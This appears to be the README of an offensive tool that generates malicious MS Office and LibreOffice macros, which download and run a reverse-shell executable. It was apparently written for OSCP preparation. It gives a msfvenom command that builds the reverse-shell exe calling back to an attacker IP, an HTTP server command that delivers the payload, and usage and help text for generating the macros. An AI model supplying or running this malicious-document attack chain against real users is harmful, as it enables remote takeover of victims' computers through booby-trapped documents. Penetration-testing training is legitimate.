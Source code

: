### macro-generator.py: Generate malicious macros using different techniques for MS Office and Libreoffice

One script to quickly generate macros with reverse shell using 3 methods for MS Office and 1 for Libreoffice or Openoffice
Created when preparing for OSCP

Create a reverse shell exe with something like the following
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe -o win/rshell.exe
```

Set a http server up to deliver payload using techniques 3 and 4
```
python3 -m http.server -d . 80
```

Generate macros to paste in Microsoft Office and Libre Office
```
python3 macro-generator.py --host 192.168.1.1 --port 443 -r ':80/win/rshell.exe'
```

Help Menu
```
Usage: macro-generator.py: Generate malicious macros using different techniques for MS Office and Libreoffice [-h] [-l HOST] [-p PORT] [-r RSHELL_PATH]

options:
  -h, --help            show this help message and exit
  -l HOST, --host HOST  IP address of attacker host
  -p PORT, --port PORT  PORT number of attacker listener
  -r RSHELL_PATH, --rshell RSHELL_PATH
                        Reverse rshell.exe location hosted on attacker machine, default=/win/rshell.exe, i.g ":8000/exp/shell.exe"

```

